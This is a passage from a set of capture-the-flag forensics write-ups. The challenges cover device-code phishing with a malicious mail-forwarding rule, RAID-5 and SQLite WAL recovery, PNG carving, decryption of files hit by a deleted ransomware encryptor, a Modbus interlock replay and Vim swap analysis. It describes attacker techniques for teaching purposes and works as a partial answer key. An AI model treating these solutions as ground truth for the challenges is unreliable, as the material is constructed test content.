- Stealer output matters even when empty: 2-byte `webpass.txt` + declined-save logins prove no credential was saved; the exfiltrated loot was history + the RMM foothold whose password (`f@k3_c@ptch@`, "fake captcha" = title) is the flaggable secret.

#### Tools & references

- Python 3 (`zipfile`, `csv`, `re`, `openpyxl`) + `unzip -p … | grep`
- Eric Zimmerman tools via KAPE modules (RECmd, PECmd, AmcacheParser, EvtxECmd, Hindsight)
- NirSoft WebBrowserPassView / BrowsingHistoryView (attacker-side, from evidence)
- MITRE ATT&CK: T1059.001 (PowerShell), T1219 (RMM), T1053.005 (Scheduled Task), T1555 (credentials in files — attempted)


### Code Red Freight

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 102 | ✅ | — | no | 0xAr3s-root | Marius Merai |

#### Challenge description

> Tarnovel Rail Freight's defence-consignment manifests are reaching an outside mailbox. The dispatcher noticed nothing. You have her identity, mailbox-audit exports, and the email she clicked. Identify the device the adversary controls, the rule leaking manifests, and the number of files they downloaded.
>
> This is a constructed incident-analysis case built from sanitized Microsoft Entra and Purview-style exports. Work only with the supplied evidence; do not contact domains, addresses, or services named in it.
>
> Attachment: `code_red_freight.zip`
>
> Flag format: `CSCTF{device_rule_count}` (e.g. `CSCTF{DESKTOP-XXXX_ForwardRule_42}` — illustrative only)

**Artifact files:** `files/code_red_freight.zip` (not committed — currently at `forensics/code_red_freight.zip`)

#### TL;DR

Device-code phishing (`microsoft.com/devicelogin` + lookalike-share lure) gave the attacker an Entra session from Montreal; the rogue Azure AD device, the forward-to-external inbox rule, and the SharePoint `FileDownloaded` events all tie to the same IP/device — the three flag parts are derived in step 3 below (`flag{...}` redacted).

#### Approach

**1. Recon — inventory and separate the two worlds**

```bash
unzip -l code_red_freight.zip
# logs/AuditLogs_2026-10-29-Patti_Fernandez.csv          (12 rows)
# logs/InteractiveSignIns_2026-10-28_2026-10-29.csv      (18 rows)
# logs/NonInteractiveSignIns_2026-10-28_2026-10-29.csv   (256 rows)
# logs/UnifiedAuditLog_Patti.csv                         (188 rows)
# lure/email_phish.png  lure/devicecode_phish.png
```

The lures tell the story before any log is opened: an email from `ragubarden@proton.me` ("Jordan Smith shared Draft_Budget_v2.docx") links to `https://Sharepoint.cz/584c39f3-…`, and the fake OneDrive page asks for `microsoft.com/devicelogin` + code `CXR7QK2WD` — classic device-code phishing. Two IPs then split every log cleanly: dispatcher Patti on `198.51.100.24` (Bucuresti/Timisoara) vs attacker on `203.0.113.77` (Montreal).

AuditLogs `Register device` makes the split concrete — one row per world:

| Date | Device | IP | DeviceId |
|---|---|---|---|
| 2026-10-28 07:12 | `R3M0TE-W0RK-PC` (baseline) | 198.51.100.24 | `3f8c1a7b-…` |
| 2026-10-29 15:05 | `D3VC0DE-R3L4Y` (rogue) | 203.0.113.77 | `95caec44-…` |

Interactive sign-ins confirm the mechanism: the rogue registration follows a `deviceCodeFlow` / `Authentication Protocol: deviceCode` pair on `Microsoft Authentication Broker → Device Registration Service` from the attacker IP (15:04:52 failure 50199 "user interaction required", 15:04:55 success), after which every attacker session is `deviceCodeFlow`-bound, `Azure AD joined`, carrying DeviceId `95caec44-…` (40 non-interactive rows; the benign world has an empty DeviceId throughout).

**2. Hypothesis — one device, one rule, count only its downloads**

With the attacker DeviceId pinned (`95caec44-c8af-4786-976c-73bd33d9d143`), the Unified Audit Log is unambiguous:

- `New-InboxRule` appears exactly twice. The benign `Newsletters` rule (2026-10-28, dispatcher IP/session, `MoveToFolder` + `FromAddressContainsWords`, no DeviceId) is the baseline; the 2026-10-29T15:28:57 rule `M4N1F3ST-L3AK` comes from `203.0.113.77:17091` on the attacker's session `009d0b3a-…`, carries the attacker DeviceId, sets `ForwardTo = ragubarden@proton.me` (the lure sender) with `StopProcessingRules = True`. Name, destination and device all point the same way.
- `FileDownloaded` appears exactly 4 times — all from `203.0.113.77`, all `Microsoft Teams` UA, and none from the dispatcher's IP: `Investor Relations Meeting Presentation.pptx`, `aerialshot.jpg`, `Local Resource Guide.docx`, `Notes.docx` (15:20:24–15:21:36). `FileAccessed`/`FileModified` rows from other IPs (service/MFA ranges) are reads and sync noise, not downloads, and `MailItemsAccessed` rows carry no attacker-IP signal — so the count is 4, not 30.

**3. Exploitation — derive, don't hardcode**

```bash
python3 solve/solve.py ../code_red_freight.zip
# [*] Device registrations:
#     2026-10-29T15:05:03 ... D3VC0DE-R3L4Y ip=203.0.113.77 deviceId=95caec44-…
#     2026-10-28T07:12:03 ... R3M0TE-W0RK-PC ip=198.51.100.24 deviceId=3f8c1a7b-…
# [*] Inbox rules:
#     2026-10-29T15:28:57 name=M4N1F3ST-L3AK ip=203.0.113.77:17091 device=95caec44-… forward=ragubarden@proton.me
#     2026-10-28T07:34:27 name=Newsletters ip=198.51.100.24:51224 forward=None move=Newsletters
# [*] FileDownloaded events: (4, all 203.0.113.77)
# [+] FLAG            : CSCTF{...}
```

The solver asserts each link (rule DeviceId == rogue DeviceId, all downloads from the attacker IP, benign baseline present) instead of trusting names, so a renamed-device variant would still resolve — or fail loudly rather than emit a wrong flag.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}` (redacted)

#### Reflections

- The leet names (`D3VC0DE-R3L4Y` = device-relay, `M4N1F3ST-L3AK` = manifest-leak) confirm the answer but must not *be* the method: the DeviceId linkage (registration → sessions → rule) and the IP split are the actual proof, and they would survive renamed decoys.
- `FileDownloaded` ≠ `FileAccessed`: counting every SharePoint touch inflates the number. Only the `FileDownloaded` operation with the attacker IP counts — the solver enforces that all 4 come from one IP.
- The benign `Newsletters` rule is the control the challenge gives you: same operation, different IP/session/device/parameters. Checking it first is what makes the malicious rule stand out instead of being "the first rule found".

#### Tools & references

- Python 3 stdlib (`csv`, `json`, `zipfile`) — no dependency needed
- Image viewer (lure PNGs — read only, never open links)
- Entra sign-in log / Purview UAL semantics: deviceCode flow, `Register device`, `New-InboxRule` (`ForwardTo`), `FileDownloaded`


### Dawn Array

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 99 | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> During a state-sponsored attempt to isolate the eastern corridor, dispatch gateway E2 of the Rovenqara Rail Continuity Authority (RRCA) issued conflicting turnout-release records and was then powered off. RRCA runs the rail lines that carry coalition supply in the Operation Dawn theatre, and the corridor stays shut until responders know which releases the corridor controller actually acknowledged.
>
> The gateway kept its staging volume on a four-member Linux md RAID-5 array; one member is lost and three raw members survive. Rebuild the volume read-only, then apply the gateway's own dispatch procedure, stored on that volume, to find the controller-acknowledged release witness, and report it in the form the procedure defines. This is a constructed recovery case built on real Linux md RAID-5, ext4, SQLite WAL, RFC 5424 and HTTP/1.1, not an acquisition from physical disks.
>
> Attachment: `dawn-array.zip` (604,849 bytes, SHA-256 `e41e1a4c6b2b…05de66`)
>
> Flag format: `CSCTF{dawn_<64 lowercase hex digits>}`

**Artifact files:** `files/dawn-array.zip` (not committed — currently at `forensics/dawn-array.zip`)

#### TL;DR

Parse the md v1 superblocks for the real geometry (left-symmetric, 32 KiB chunks, 1 MiB data offset, roles 0/2/3 present), rebuild the 117 MiB ext4 volume read-only, read the SQLite ledger *with its WAL applied*, and keep only the 16 of 128 release cycles whose controller reservation, readback and syslog phases all agree per procedure DP-7 — their SHA-256 is the witness.

#### Approach

**1. Recon — inventory, then metadata before bytes**

```bash
unzip -l dawn-array.zip
# CASE-SHEET.txt  acq-1.raw  acq-2.raw  acq-3.raw (40 MiB each)  tools/raid5_extract.py
```

Note: the local copy hashes differently from the SHA-256 printed on the platform (suffix `…ad5de66` vs `…a05de66`); the analysis below works strictly from the supplied bytes, and every layer cross-validates (shared array UUID, ext4 label/UUID, 1:1 ledger/syslog triple match, 128 clean HTTP exchanges).

Each member carries an md v1.2 superblock at file offset `0x1000` (magic `0xa92b4efc`, set name `rrca-gw-e2:staging`). Decoded per `/usr/include/linux/raid/md_p.h` (`chunksize` is in sectors, roles come from `dev_roles[dev_number]`):

| Member | dev_number | role | layout | chunk | data offset | used size |
|---|---|---|---|---|---|---|
| acq-1.raw | 0 | **0** | 2 = left-symmetric | 64 sectors = 32 KiB | 2048 sectors = 1 MiB | 79872 sectors |
| acq-2.raw | 4 | **3** | same | same | same | same |
| acq-3.raw | 2 | **2** | same | same | same | same |

So role 1 is the lost member (parity recomputed), logical size is `3 × 79872 × 512 = 122,683,392` bytes. A naive first sweep (ext4 magic hunt over role/chunk/layout permutations) produced hundreds of hits because stripe-0 redundancy puts a valid superblock copy on two members — the superblock roles above are what disambiguate it, not the magic scan.

**2. Hypothesis — read DP-7 before trusting any single record**

The volume (`rrca-staging`, UUID `e195b486-…`) holds exactly the three evidence types the procedure names: `var/lib/rrca/dispatch.sqlite` (+ 552 KiB `-wal`, `-shm`), `var/log/rrca/dispatch-gateway.syslog` (512 RFC 5424 records, SD-ID `rrca@32473`) and `var/log/rrca/controller-access.pcapng` (2432 frames, 128 loopback connections `10.61.4.10 → 10.61.4.21:8080`, each exactly POST/201 + GET/200).

DP-7 (`usr/share/doc/rrca-dispatch-procedure.txt`) defines qualification Q1–Q5: one ledger row + one of each of the four syslog phases sharing `(cycle_id, request_id, gateway_seq)` in order; POST headers/body matching the ledger row with a 201 echo; response revision/nonce matching ledger *and* syslog; GET naming the same request with a readback view matching response and ledger; syslog readback matching the ledger. Anything duplicated, non-success, missing or out-of-order disqualifies.

Two traps follow directly: (a) 33 of the 128 ledger rows (`gateway_seq` 96–128) live **only in the WAL** — a main-DB-only read silently drops them, including qualifying cycles 103/110/117; (b) statuses alone qualify nothing — every connection here is 201/200, yet only 16 cycles survive the field-by-field comparison.

**3. Exploitation — reconstruct, then filter**

```bash
python3 solve/solve.py ../dawn-array.zip
# [*] md RAID-5: layout=left-symmetric chunk=32768 data_off=1048576
#                array=122683392 roles=[0, 2, 3] missing=1
# [*] Rebuilt 122683392 logical bytes, ext4 magic OK
# [*] Ledger        : 128 rows (WAL applied)
# [*] Syslog        : 512 records, 128 cycles
# [*] Capture       : 128 connections, POST/201 + GET/200 each, no pipelining
# [*] Qualifying    : 16 cycles
# [*] Qualifying gateway_seq: 14,15,34,35,55,69,78,79,80,83,85,87,95,103,110,117
# [+] FLAG            : CSCTF{...}
```

The solver derives the geometry from the superblocks, delegates byte-shuffling to the provided `raid5_extract.py`, dumps files read-only via `debugfs` (no mount, no root), reassembles TCP/HTTP in pure Python, and asserts every DP-7 clause — aborting instead of emitting a witness if any structural expectation breaks. The 112 rejections fall into four clean classes: POST-response nonce differing from ledger+syslog (29), response revision differing from `prepare_revision` (28), GET readback register/value showing the controller's divergent view (24, registers in the `90xx` range), and syslog `READBACK_OBSERVED` value contradicting the committed row (31, always the `release_value` bit). Witness = 21-byte header `RRCA-DAWN-WITNESS-v1\n` + 16 `|`-joined lines in ascending `gateway_seq` (1733 bytes), SHA-256 of which is the flag body.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}` (redacted)

#### Reflections

- Magic-byte brute force is a weak oracle on redundant arrays: stripe-0 parity made the ext4 superblock appear under nearly every geometry. The md `dev_roles[]` (not filenames, not magic) are the ground truth for member order.
- The WAL is part of the database: opening the SQLite file without its `-wal` sidecar (or dumping only `dispatch.sqlite` from the image) loses cycles 96–128 and yields a 13-line witness with a wrong hash. Copy the trio, open normally, count 128.
- DP-7's "HTTP status alone does not qualify" is literal here — all 128 exchanges are 201/200 on the wire. The discrimination is entirely in nonce/revision/register/value agreement across four sources (ledger, syslog, reservation response, readback view).

#### Tools & references

- Python 3 stdlib (`struct`, `hashlib`, `sqlite3`, `zipfile`) + `debugfs` (read-only dumps) + provided `tools/raid5_extract.py`
- `capinfos`/`tshark` (capture recon: 128 connections × 19 frames)
- Linux `md_p.h` v1 superblock layout; mdadm RAID-5 algorithms (2 = left-symmetric); ext4 superblock magic `0x53EF`; SQLite WAL mode; RFC 5424 structured data


### Flotsam

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 100 | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> The voyage data recorder from MV Ortelia was lifted from the wreck site. The capsule survived, the controller didn't, so the flash was read chip-off: a raw byte-level dump with no filesystem metadata. With the allocation tables gone, files have to be carved out by hand.
>
> The bridge wrote a chart frame showing the vessel's last fix, a PNG sitting somewhere in that dump. Recover it and read the recovery key printed on it. A file that opens is not the same as a file that is whole.
>
> Flag format: `CSCTF{message}`

**Artifact files:** `files/recorder-sectors.img` (35,840 bytes, not committed).

#### TL;DR

The PNG is fragmented: its first part decodes to a chart that "opens" but the bottom (where the key is printed) is missing; the remaining IDAT sectors lie before it in the dump, and putting them back in address order makes the IDAT CRC match and reveals the key → flag.

#### Approach

**1. Recon — 70 sectors, a JPEG, a PNG and NMEA text**

The image is 35,840 bytes = 70 sectors of 512 B. `binwalk` reports a JPEG at 0x2C00 and a PNG (760×520) at 0x6800, with no `IEND` after it. Searching the markers by hand shows `IEND` at offset 24215, *before* the PNG header: the PNG's end is in earlier data, so the file is fragmented. I dumped a per-sector map (first bytes + number of zero bytes):

- sectors 0–2 and 48–51: ASCII NMEA (`$GPRMC,…`), unrelated log records;
- sectors 3–20: high-entropy data, then an all-zero sector 21;
- sectors 22–33: the JPEG (`FFD8` … `FFD9` at 17110), complete, then zeros;
- sectors 35–41, 44–47: more high-entropy data, ending with the `IEND` chunk in sector 47, separated by all-zero sectors;
- sector 52: `\x89PNG`, IHDR 760×520, one `IDAT` chunk of 22,630 bytes — but only 9,175 bytes (sectors 52–67) are contiguous before zero sectors 68–69.

**2. Hypothesis — the IDAT continues in the orphan sectors, in address order**

The numbers fit exactly: the IDAT needs 22,630 − 8,151 (the part in sectors 52–67) = 14,479 bytes = 28 full sectors + 143 bytes. The orphan non-zero sectors (3–20, 35–41, 44–46 = 28 sectors) plus 143 bytes at the start of sector 47, followed by the 4-byte CRC and the 12-byte `IEND` chunk, close the file exactly at offset 159 of sector 47. The JPEG and NMEA sectors are decoys.

Decompressing only the first fragment with `zlib` gives a picture that opens and looks fine: the chart with the "LAST FIX" marker, but the strip at the bottom is black (see below). That is the "opens ≠ whole" warning of the statement: the deflate stream is cut and the viewer renders what it has.



(The image above is the top of the reconstructed frame; the key line below it is cropped out on purpose.)

**3. Exploitation — reassemble in order and validate with the CRC**

I first tried a greedy search (appending sectors that keep the deflate stream valid and the PNG filter bytes in 0–4), but too many wrong sectors also inflate "validly", so it was a dead end. Simpler and exact: concatenate the first fragment, the orphan sectors in address order, then the start of the `IEND` sector, and check the IDAT CRC32 — it matches on the first try, and `zlib` ends cleanly with exactly 520 × 2281 bytes.

```bash
python3 -I solve/solve.py files/recorder-sectors.img recovered.png
```

Opening `recovered.png` shows the full chart with a **RECOVERY KEY (transcribe exactly)** line at the bottom: that is the flag.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- A PNG that renders is not a PNG that is whole: check chunk CRCs and that the deflate stream ends (`eof`) with exactly `height × (1 + width × 3)` bytes.
- Counting bytes beats guessing: the IDAT length in the header told exactly how many sectors were missing and where the file ended.
- Fragment order is not always sequential in general, but here address order matched; the CRC is the oracle that validates any ordering.
- I only read the key off the image by eye (OCR-by-eye): re-check characters like `0/O` and `1/l` if a submission is rejected.

#### Tools & references

- `binwalk`, `file`, Python 3 (`zlib`, `struct`), Pillow to render partial output
- PNG chunk structure (IHDR/IDAT/IEND, CRC32), file carving of fragmented files


### Ghost in the Historian

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 107 | ✅ | — | no | 0xAr3s-root | Mohamed Amine Mzoughi |

#### Challenge description

> A campaign against the electricity supply encrypted a substation historian's configuration and deleted the encryptor. The substation feeds a partner nation's grid on the coalition side of Operation Dawn.
>
> Recover the original configuration's `SAFETY_INTERLOCK_TOKEN` and submit its complete `CSCTF{...}` value. The volume was constructed for this exercise and is not an untouched acquisition; the included brief explains its timeline. Analyze recovered programs as data: do not execute them or mount the image.
>
> Attachment: `ghost-in-the-historian.zip`, 72,560 bytes, SHA-256 `5edaea927aa93db3286f771dd77c8c41e0c23c6eafa70ac2182da5bd9ac56ce9`

**Artifact files:** `files/ghost-in-the-historian.zip` (not committed — currently at `network/ghost-in-the-historian.zip`)

#### TL;DR

Carve the deleted `historian_enc` ELF from unallocated space, read its disassembly as data (xorshift32 stream, seed `(time() ^ getpid()) × 0x9E3779B1`, PID from its own syslog line), brute-force the seed seconds around the 04:13 sweep, and chain-decrypt the three `.enc` configs — the topology file holds the token.

#### Approach

**1. Recon — a small ext4 world with three locked files**

The ZIP verifies (`5edaea92…56ce9`) and unwraps to a VMDK descriptor plus a 64 MiB flat extent (`evidence-flat.vmdk`, 131072 sectors, `manifest.sha256` covers all three files). Read-only `debugfs`, never a mount:

```bash
debugfs -R "ls -l /" evidence-flat.vmdk
# /var/historian → node_status.json.enc (74 B), grid_topology.cfg.enc (235 B),
#                  historian_cache.dat.enc (64 B), all dated 2-Oct-2026 05:13
# /var/log/historian.log → one line: 2026-10-02 04:13 historian_enc[2764964]:
#                          starting encryption sweep, target_dir=/var/historian
```

The README brief is explicit about the two clocks (filesystem built Oct 29, incident records Oct 2 — each means what it says) and the rules of engagement: recovered programs are data. `lsdel` finds no deleted inodes and the journal is a single empty transaction, but `strings` over the raw extent leaks the rest of the story: a ransom note ("Contact ref: 7F3A-RECOVERY (this is NOT a decryption key)", display-only wallet) and, right beside it, a full second program — libc imports (`scandir`, `fwrite`, `unlink`, `utime`, `getpid`), path formats (`%s/%s`, `%s.enc`, `rb`/`wb`), and the exact log format above. One ELF (`7fELF`) sits at extent offset `0xa1c000`; carved through its section headers (`0x3888` bytes, BuildID intact) it is the deleted encryptor. The `@z3uAF2` string nearby is just ciphertext bytes of `grid_topology.cfg.enc`, not a key — a natural decoy.

**2. Hypothesis — the binary documents its own key schedule**

The `.text` disassembly (stripped, ~1.2 KiB — read, never run) is a linear sweep: `scandir`, skip dotfiles, skip non-regular files, `fopen(rb)` → `ftell`/`fread`, encrypt, `fopen(wb)` to `%s.enc`, `utime` (hence the uniform Oct-2 mtimes), `unlink` the original. The cipher is textbook xorshift32 (shifts 13/17/5, little-endian bytes, fresh state per 4-byte block):

```
seed = 0xa5a5a5a5; t = time(); pid = getpid()
if (t != pid) seed = (t ^ pid) * 0x9E3779B1   (mod 2^32)
state persists across files (saved back after each one)
```

So the unknowns are exactly two: the seed seconds `t` and the file order (scandir order decides who gets the seed state). The log line the binary wrote itself hands over both anchors: PID `2764964` verbatim, and the sweep minute `04:13` bounding `t` — brute-force the day's 86400 seconds and the config that decrypts from seed state must be fully printable ASCII starting with `#`.

**3. Exploitation — one day of seconds, then follow the chain**

```bash
python3 solve/solve.py ../ghost-in-the-historian.zip
# [*] Sweep log     : 2026-10-02 04:13 historian_enc[2764964]
# [*] Seed time     : 2026-10-02 04:13:05+00:00 (t=1790914385) seed=0x40d8e565
# [*] Chain order   : grid_topology.cfg.enc -> historian_cache.dat.enc
#                     -> node_status.json.enc
# [+] FLAG            : CSCTF{...}
```

`t = 04:13:05` (five seconds into the logged minute — exactly what the two-`time()`-call layout predicts) decrypts `grid_topology.cfg.enc` straight from seed state into its config, including `SAFETY_INTERLOCK_TOKEN=flag{...}`. Chaining the surviving state (`235 B → 59 states`) decrypts `historian_cache.dat` (pressure CSV `04:11Z/04:12Z`) and then `node_status.json` (valid JSON, `MGA-HIST-07`, `nominal`); the reverse order fails printability, confirming `grid → cache → node`. My first sweep over the whole day with a 3-file joint threshold found nothing — correctly so, since only the first file in scandir order validates from seed state; scoring the grid file alone hits at full 235/235 printable on the first pass (~5 s).

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}` (redacted)

#### Reflections

- Analyzer-as-data works: imports + rodata (`%s.enc`, `rb`/`wb`, the log format) already sketch the program before any disassembly, and the 1.2 KiB `.text` confirms seed schedule, chaining, timestamp cloning and deletion in one read.
- The PID-in-the-log trick is the intended shortcut — the binary `%d`-logs its own `getpid()`, collapsing the seed search to one dimension (seconds in a day). Without it, the joint `(t, pid)` space would still be brute-forceable but far uglier.
- The failed joint-threshold sweep was instructive, not wasted: state carry-over means only one file validates from seed, so per-file scoring with a chaining second stage is the right shape — and the order that fails printability is itself evidence for the order that succeeds.

#### Tools & references

- Python 3 stdlib (`struct`, `hashlib`, `zipfile`) + `debugfs` (read-only dumps, `lsdel`, `logdump`)
- `strings`, `objdump -d -M intel` (static triage/disassembly — binary never executed)
- ext4 flat extent in monolithicFlat VMDK; xorshift32 (Marsaglia shifts 13/17/5); RFC-ish syslog line as PID oracle


### Interlock Witness

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 99 | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> While the response-cell interlock read false, a fictional grid-support station feeding an allied depot network that Operation Dawn relies on accepted maintenance writes. The controller took syntactically valid Modbus/TCP writes, and the supplied safety policy is an offline response-cell rule, not a controller feature.
>
> Reconstruct the accepted target writes that violate the policy and derive the incident witness. Work from the supplied files only.
>
> Attachment: `interlock-witness.zip`, 15,307 bytes, SHA-256: `d46d5b2b820e412db288dde2a3a3f991990622a702708cb9fc13e498d223995`
>
> Submit: `CSCTF{<64 lowercase hex characters>}`

**Artifact files:** `files/interlock-witness.zip` (not committed — currently at `forensics/interlock-witness.zip`)

#### TL;DR

Replay the single Modbus/TCP flow offline, track the three interlock words (`0x000A`/`0x000B`/`0x000C`) from accepted FC03 observations and FC16 writes, keep the 16 target writes (at `0x0013`/`0x0014`) issued while the interlock was false, and hash `INTERLOCK-WITNESS/1\0 || request-PDU||response-PDU…` with SHA-256.

#### Approach

**1. Recon — verify the bundle and inventory the capture**

```bash
sha256sum interlock-witness.zip
# d46d5b2b820e412db288dde2a3a3f991990622a702708cb9fc13e498d223995  matches
unzip -l interlock-witness.zip
# README.txt  interlock.pcapng  register-map.md
# interlock-policy.md  witness-format.md  provenance.json  SHA256SUMS
capinfos interlock.pcapng   # 512 frames, single lo interface, tcp port 502
tshark -r interlock.pcapng -q -z conv,tcp
# 127.0.0.1:59818 <-> 127.0.0.1:502 only
```

The three Markdown files are the whole spec — there is no hidden hint to find elsewhere:

- `register-map.md`: zero-based **PDU** addresses. `40011/40012/40013/40020/40021` are operator labels only. Mapped words: `0x000A` `maintenance_permit`, `0x000B` `isolation_state`, `0x000C` `protection_armed`, `0x0013` `trip_limit`, `0x0014` `restore_delay`.
- `interlock-policy.md`: the offline acceptance + safety rule (below).
- `witness-format.md`: the serialisation and hash, plus a non-incident verification vector.

Framing the TCP payloads by MBAP length gives **504 Modbus ADUs = 252 transactions** (TIDs 1–252, strictly sequential, no retransmission, no split/coalesced ADU): 124 FC03 pairs and 128 FC16 pairs, all with protocol `0x0000` and unit `0x01`. Every FC03 response carries byte count `22 = 2 × 11`, and every FC16 normal response echoes start + quantity — so the acceptance filters below reject **0** transactions in this capture. That still has to be checked, not assumed: it is what makes the 128 FC16 “accepted”.

**2. Hypothesis — an offline state machine, not a string hunt**

The flag is a SHA-256, so it cannot be carved from the capture. It has to be recomputed by replaying, in normal-response order:

1. **FC03 accepted** only if the immediately preceding FC03 request matches TID/proto/unit/function in the reversed flow and `byte_count == 2 × quantity`. It then updates every mapped word it covers. Here every FC03 reads `0x000A` quantity 11, i.e. `0x000A…0x0014`, so each accepted observation refreshes all five mapped words at once.
2. **FC16 accepted** only if its normal response matches TID/proto/unit/function and echoes start + quantity. Exceptions never change state. An accepted write applies **after** its normal response.
3. **Target** = accepted FC16 with quantity 1 at `0x0013` or `0x0014`. The policy states the 8 other accepted FC16 are ineligible; the capture indeed contains exactly 5 prerequisite writes (`0x000C=1` TID 2, `0x000A=1` TID 19, `0x000B=1` TID 20, `0x000B=0` TID 125, `0x000B=1` TID 142) and 3 acknowledgement writes (`0x0018/0x0019/0x001A`, TIDs 248/250/252), leaving 120 targets (60 per address).
4. **Unsafe** = at least one of `permit==1`, `isolation==1`, `protection==1` is false **immediately before the target's normal response** (so a write never judges itself, and a prerequisite write only counts from the next transaction on).

Two traps follow directly: using the displayed `400xx` references instead of PDU addresses finds nothing, and judging safety from the target's own written value — or after applying its response — misclassifies the boundary transactions.

State timeline from the replay (prerequisite triple only changes at these points):

| After TID | permit | isolation | protection | Cause |
|---|---|---|---|---|
| 1 (FC03) | 0 | 0 | 1 | initial observation |
| 21 (FC03) | 1 | 1 | 1 | TIDs 19+20 set permit/isolation |
| 126 (FC03) | 1 | 0 | 1 | TID 125 cleared isolation |
| 143 (FC03) | 1 | 1 | 1 | TID 142 restored isolation |

**3. Exploitation — select the unsafe targets and hash the witness**

Applying the rule gives **16 unsafe targets** out of 120: TIDs **4, 6, 8, 10, 12, 14, 16, 18** (interlock not yet established, `0,0,1`) and TIDs **127, 129, 131, 133, 135, 137, 139, 141** (isolation dropped, `1,0,1`). The other 104 targets see `1,1,1` and are safe.

For each unsafe target, in normal-response order, append the request PDU (`function-code || function-data`, **no MBAP**) then the normal-response PDU: `T` is `16 × (8 + 5) = 208` bytes. With `P = "INTERLOCK-WITNESS/1" || 0x00` (20 bytes), `W = SHA-256(P || T)`.

The solver is stdlib-only (its own pcapng/Ethernet/IPv4/TCP/Modbus framing) and first asserts the published vector — request `10 00 13 00 01 02 00 2a` + response `10 00 13 00 01` → `b6e58fa9…f34786` — before touching the incident capture:

```bash
python3 solve/solve.py ../interlock-witness.zip
# [*] Vector OK    : b6e58fa962e382b112eb596e416d5680495fc4bd02141f2389797f194df34786
# [*] Modbus ADUs  : 504
# [*] FC03 accepted: 124 (rejected 0)
# [*] FC16 accepted: 128 (rejected 0), targets 120
# [*] Unsafe targets: 16 (normal-response order)
#     TID   4 permit=0 isolation=0 protection=1 req=100013000102040d resp=1000130001
#     ...
#     TID 141 permit=1 isolation=0 protection=1 req=1000140001020a9a resp=1000140001
# [*] T (208 bytes): 100013000102040d1000130001...
# [+] FLAG         : CSCTF{...}
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}` (redacted)

#### Reflections

- Read the three spec files as one contract before opening Wireshark: acceptance, target eligibility, safety instant and serialisation are four separate filters, and each one changes the hash.
- “Immediately before its normal response” plus “applies after its normal response” is the whole timing model. Evaluating at request time happens to agree here only because requests and responses are strictly sequential — the response-order replay is the safe implementation.
- A clean synthetic capture still needs the rejection checks: verifying 124/124 FC03 and 128/128 FC16 accepted (and TCP sequence continuity, no retransmission) is what justifies treating every FC16 target as in-scope.
- The `400xx` labels are the deliberate addressing trap: all filtering must use zero-based PDU addresses (`0x000A…0x0014`).

#### Tools & references

- Python 3 stdlib (`struct`, `hashlib`, `zipfile`) — solver needs no third-party package
- Wireshark / `tshark`, `capinfos` (recon cross-checks only)
- Modbus/TCP MBAP + FC03/FC16 (0x10) PDU layouts; pcapng block format


### Last Buffer

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 119 | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> An endpoint collector held on to two Vim recovery files for the same incident note: a periodic snapshot and the one grabbed when the shell dropped. Both restore cleanly, but only one came from the shell that died during the response window. The other is an earlier drill revision.
>
> Recover both, work out which one came from the shell that mattered, and return its encoded read-back proof.
>
> Flag format: `CSCTF{message}`

**Artifact files:** `files/last-buffer-handout.zip` → `incident-2026-10-07.md`, `incident-2026-10-07.md.swp`, `incident-2026-10-07.md.swo`, `audit-timeline.jsonl`, `shell-journal.jsonl`, `case-context.json`, `vim-swap-layout.md` (not committed).

#### TL;DR

Both swaps carry an `authorization_b64` line, but only the `.swp` (PID 8442, pts/4) belongs to the shell that was killed by SIGHUP inside the crash window and whose base-file SHA-256 matches the saved note; its base64url proof decodes to the flag, while the `.swo` (PID 8124) decodes to a decoy.

#### Approach

**1. Recon — two swaps, a saved note and three context files**

`file` identifies both swaps as Vim 9.0 swap files for `/home/opnight/incident-2026-10-07.md` (user `opnight`, host `noc-jump-1`), with PID 8442 for the `.swp` and PID 8124 for the `.swo`. The context files give the timeline:

- `case-context.json`: crash window `02:19:30Z`–`02:20:00Z`, target tty `pts/4`;
- `audit-timeline.jsonl`: PID 8124 (pts/7) is a periodic snapshot and exits with `success` at 02:12:18Z; PID 8442 (pts/4) has `ANOM_ABEND` `SIGHUP` at 02:19:46Z, then a `disconnect-capture` snapshot;
- `shell-journal.jsonl`: PID 8442 ran `sha256sum incident-2026-10-07.md` at 02:18:31Z → `01c2a034…c849`, then `session_disconnect` on pts/4.

`strings` on both swaps already shows the note text, with a `revision_id`, a `status`, a `base_file_sha256` and an `authorization_b64` line each (`vim-swap-layout.md` explains the structure: header block `b0`, data blocks `0x6461`, NUL-terminated lines).

**2. Hypothesis — identify the swap by process, not by name or content**

Several signals could be used, but only some are reliable:

- the names are interchangeable (the collector stripped the leading dot) and both restore cleanly, so a successful restore proves nothing;
- the swap header PID ties each file to a process: 8124 (`.swo`) vs 8442 (`.swp`);
- the audit log says the shell that died in the window on the target tty is 8442; 8124 had exited normally 7 minutes earlier;
- the swap's `base_file_sha256` must equal the SHA-256 of the saved note, and the shell journal confirms that hash for 8442:

```bash
sha256sum files/incident-2026-10-07.md
# 01c2a034f1a47e4cb5536d66394c4774a1f1c568ff4e34c0de7f654aa42bc849  <- base_file_sha256 of the .swp
```

The `.swo` has `base_file_sha256 = a5bcac6d…`, `revision_id: INC-4471/R16-DRILL` and `status: PERIODIC-SNAPSHOT` (the earlier drill revision), whereas the `.swp` has `revision_id: INC-4471/R18` and `status: UNSAVED-AT-DISCONNECT`, one step beyond the saved `R17`. Everything points to the `.swp`.
